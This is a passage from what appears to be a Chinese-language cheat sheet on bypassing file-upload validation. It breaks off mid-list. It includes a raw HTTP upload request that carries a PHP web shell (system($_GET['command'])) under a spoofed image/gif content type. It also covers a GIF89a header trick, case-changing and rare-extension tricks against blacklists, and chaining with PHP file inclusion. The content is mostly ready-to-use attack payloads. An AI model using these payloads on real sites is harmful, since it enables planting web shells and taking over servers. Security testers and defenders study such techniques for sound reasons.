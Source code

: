 #### 文件类型绕过

* 我们可以通过抓包，将content-type字段改为image/gif

```http
POST /upload.php HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: TE, close
Host: localhost
User-Agent: libwww-perl/5.803
Content-Type: multipart/form-data; boundary=xYzZY
Content-Length: 155
--xYzZY
Content-Disposition: form-data; name="userfile"; filename="shell.php"
Content-Type: image/gif (原为Content-Type: text/plain)
<?php system($_GET['command']);?>
--xYzZY-
```

####  文件头绕过

* 在木马内容基础上再加了一些文件信息，有点像下面的结构
  `GIF89a<?php phpinfo(); ?>`

#### 文件后缀名绕过

* 前提：黑名单校验
* 黑名单检测：一般有个专门的 blacklist 文件，里面会包含常见的危险脚本文件。
* 绕过方法：
  * 找黑名单扩展名的漏网之鱼 - 比如 asa 和 cer 之类
  * 可能存在大小写绕过漏洞 - 比如 aSp 和 pHp 之类
* 能被解析的文件扩展名列表：
  * jsp 
  * jspx
  * jspf
  * asp
  * asa
  * cer
  * aspx
  * php
  * php
  * php3
  * php4
  * exe
  * exee

#### 配合文件包含漏洞

* 前提：校验规则只校验当文件后缀名为asp/php/jsp的文件内容是否为木马。
* 绕过方式：（这里拿php为例，此漏洞主要存在于PHP中）
  * 先上传一个内容为木马的txt后缀文件，因为后缀名的关系没有检验内容；
  * 然后再上传一个.php的文件，内容为`<?php Include(“上传的txt文件路径”);?>`
  * 此时，这个php文件就会去引用txt文件的内容，从而绕过校验，下面列举包含的语法：
